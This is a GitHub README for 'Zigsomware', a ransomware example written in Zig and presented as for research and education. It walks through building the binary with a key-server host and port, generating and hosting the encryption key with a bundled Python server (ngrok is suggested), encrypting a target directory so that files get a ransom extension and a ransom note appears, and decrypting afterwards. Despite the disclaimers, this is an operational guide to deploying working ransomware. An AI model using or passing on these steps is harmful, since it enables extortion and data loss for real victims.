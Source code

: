 # :t-rex: Zigsomware :t-rex:

Zigsomware is a ransomware example written in Zig. This is not practical and is only for research purposes of Zig implementation.

<br />

## Features

- Encrypts files with XChaCha20-Poly1305.
- Downloads a encryption key from a specified server.
- Decrypts the encrypted files.

<br />

## Requirements

- Linux
- Zig version 0.14.0

<br />

> ## ATTENTION

> - The project aims to help security research and educational purposes. Do not use it on any systems not under your control.
> - Don't use it on your personal machine. Instead, use it on your test environment such as VM.
> - Anyway, use it at your own risk.

<br />

# Tutorial

## 1. Install

First clone the repository:

```sh
git clone https://github.com/hideckies/zigsomware.git
cd zigsomware
```

And build the project with specified options:

```sh
# -Dhost: Server address
# -Dport: Server port
# -Dpath: the url path of the server to download a encryption key.
zig build -DSERVER_HOST=127.0.0.1 -DSERVER_PORT=4444 -DSERVER_PATH=/
```

As above, we need to specify your server host/port/path for allowing the Zigsomware to download a encryption key. We can also set other servers such as `ngrok`.  
After that, the executables are generated under `zig-out` directory:

```sh
file ./zig-out/x86_64-linux/zigsomware
file ./zig-out/x86_64-windows/zigsomware.exe
```

## 2. Generate Encryption Key & Host It

Next, generate an encryption key to be used for encryption/decryption.  
To generate it, run the following command:

```sh
./zig-out/x86_64-linux/zigsomware --genkey
# output example: cncV+3zy9LUXPssav7SvivRAO1kPopVXRGtk+/eW/nY=
```

We need to host this key in the server that you have specified when building: `https://<SERVER_HOST>:<SERVER_PORT>/<SERVER_PATH>`.  
For testing purposes, I created a simple API server (`server/server.py`) so use it this time:

```sh
cd server
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
python3 server.py --port 4444 --key cncV+3zy9LUXPssav7SvivRAO1kPopVXRGtk+/eW/nY=
```

As above, we need to set the `--port` and the `--key`.  
Then this server hosts the encryption key at the root path (`/`). Our `Zigsomware` will donwload the encryption key from the server.  

## 3. Run Zigsomware (Encryption)

On the target machine, execute the `zigsomware` with the specified target directory to encrypt:

```sh
# -e: Encryption
./zigsomware -e ./test_dir/
```

When executed, the `zigsomware` downloads the encryption key from the server that you have specified, then encrypts files udner `./test_dir/` directory and appends ransom extensions (`.zigsom`) to each file.
A ransom note (`README.txt`) has also been created in the directory.

## 4. Decryption

To decrypt the files, run `zigsomware` with `-d` flag and set a **Base64-encoded encryption key** that was sent to our server during encryption:

```sh
# -d: Decrypt
# -k: Base64-encoded encryption key
./zigsomware -d -k cncV+3zy9LUXPssav7SvivRAO1kPopVXRGtk+/eW/nY= /tmp/test_dir/
```
